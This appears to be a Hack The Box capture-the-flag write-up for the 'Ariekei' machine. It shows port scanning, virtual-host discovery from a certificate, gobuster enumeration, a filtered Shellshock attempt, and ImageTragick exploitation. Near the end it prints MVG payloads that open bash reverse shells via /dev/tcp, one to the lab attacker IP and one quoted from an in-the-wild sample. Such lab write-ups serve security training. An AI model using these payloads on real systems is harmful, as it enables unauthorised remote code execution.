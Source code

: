 ### Ariekei

#### keyword 

docker, gobuster -f 

#### Information

```html
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a7:5b:ae:65:93:ce:fb:dd:f9:6a:7f:de:50:67:f6:ec (RSA)
|   256 64:2c:a6:5e:96:ca:fb:10:05:82:36:ba:f0:c9:92:ef (ECDSA)
|_  256 51:9f:87:64:be:99:35:2a:80:a6:a2:25:eb:e0:95:9f (ED25519)
443/tcp  open  ssl/https nginx/1.10.2
_http-server-header: nginx/1.10.2
|_http-title: 400 The plain HTTP request was sent to HTTPS port
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|_  http/1.1
1022/tcp open  ssh       OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 98:33:f6:b6:4c:18:f5:80:66:85:47:0c:f6:b7:90:7e (DSA)
|   2048 78:40:0d:1c:79:a1:45:d4:28:75:35:36:ed:42:4f:2d (RSA)
|   256 45:a6:71:96:df:62:b5:54:66:6b:91:7b:74:6a:db:b7 (ECDSA)
|_  256 ad:8d:4d:69:8e:7a:fd:d8:cd:6e:c1:4f:6f:81:b4:1f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### is Docker ???

OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 -> trusty-ubuntu

penSSH 7.2p2 Ubuntu 4ubuntu2.2    ->  xenial-ubuntu



### 443 port

the url https://10.10.10.65/  have some interersting in the ceritficate! 

```json
Certificate Subject Alt Name{

​	Not Critical
​	DNS Name: calvin.ariekei.htb
​	DNS Name: beehive.ariekei.htb

}
```

let us put into hosts [/etc/hosts]()

```dart
10.10.10.65 beehive.ariekei.htb calvin.ariekei.htb
```



### gobuster paramter "-f"  !!

gobuster make the /cgi-bin to /cgi-bin/  by append parameter "-f". if not , the website will make the bad code 404.

```python
 curl -k --ssl https://10.10.10.65/cgi-bin
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /cgi-bin was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Debian) Server at 10.10.10.65 Port 80</address>
</body></html>
root@ens:~/htb/Ariekei# curl -k --ssl https://10.10.10.65/cgi-bin/
    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /cgi-bin/
on this server.</p>
<hr>
<address>Apache/2.2.22 (Debian) Server at 10.10.10.65 Port 80</address>
</body></html>

```

curl -k --ssl https://10.10.10.65/cgi-bin

not same with

curl -k --ssl https://10.10.10.65/cgi-bin/

```
     gobuster -k  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u  https://beehive.ariekei.htb  -f

=====================================================

# Gobuster v2.0.1              OJ Reeves (@TheColonial)

[+] Mode         : dir
[+] Url/Domain   : https://beehive.ariekei.htb/
[+] Threads      : 10
/blog/ (Status: 200)
/cgi-bin/ (Status: 403)
/icons/ (Status: 403)

```

####  cgi-bin 

```
gobuster -k  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u  https://beehive.ariekei.htb/cgi-bin/
/stats (Status: 200)
```

#### shellshock rabbit hole 

get  /cgi-bin/stats HTTP/1.1

<pre>
Tue Mar 19 14:34:37 UTC 2019
14:34:37 up 1 day, 15:53, 0 users, load average: 0.00, 0.02, 0.00
GNU bash, version 4.2.37(1)-release (x86_64-pc-linux-gnu) Copyright (C) 2011 Free Software Foundation, Inc. License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html> This is free software; you are free to change and redistribute it. There is NO WARRANTY, to the extent permitted by law.

https://dedetoknotes.blogspot.com/2015/07/shellshock-vulnerability-on-bash-shell.html

Shellshock Vulnerability on Bash Shell

This is how you test your bash shell whether its vulnerable or not for 'shellsock' bug.
Run this on your linux shell (you don't need super user account for this):
 $ env x='() { :;}; echo vulnerable' bash -c "echo this is a test" , but **it fully filters** 

```shell
GET /cgi-bin/stats HTTP/1.1
Host: beehive.ariekei.htb
User-Agent: (){:;};echo;echo

SERVER_SIGNATURE=<address>Apache/2.2.22 (Debian) Server at beehive.ariekei.htb Port 80</address>

HTTP_USER_AGENT=(){:;};echo;echo
HTTP_X_FORWARDED_FOR=10.10.14.27
SERVER_PORT=80
HTTP_HOST=beehive.ariekei.htb
HTTP_X_REAL_IP=10.10.14.27
DOCUMENT_ROOT=/home/spanishdancer/content
SCRIPT_FILENAME=/usr/lib/cgi-bin/stats
REQUEST_URI=/cgi-bin/stats
SCRIPT_NAME=/cgi-bin/stats
HTTP_CONNECTION=close
REMOTE_PORT=55502
```



#### Enum Calvin

```
gobuster -k  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u  https://calvin.ariekei.htb
/upload (Status: 200)
```

#### imagemagick  Tragick  

https://blog.sucuri.net/2016/05/analyzing-imagetragick-exploits-in-the-wild.html

```
push graphic-context
viewbox 0 0 640 480 fill 'url(https://\x22|setsid /bin/bash -i >/dev/tcp/106.186.30.7/443 0<&1 2>&1")'
```

https://github.com/dorkerdevil/ImageTragick_exploit, A tool to exploit imagetragick vulnerability to gain remote code execution.

```shell
#### payload 
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|setsid /bin/bash -i >& /dev/tcp/10.10.14.27/443 0<&1 2>&1")'
pop graphic-context

```

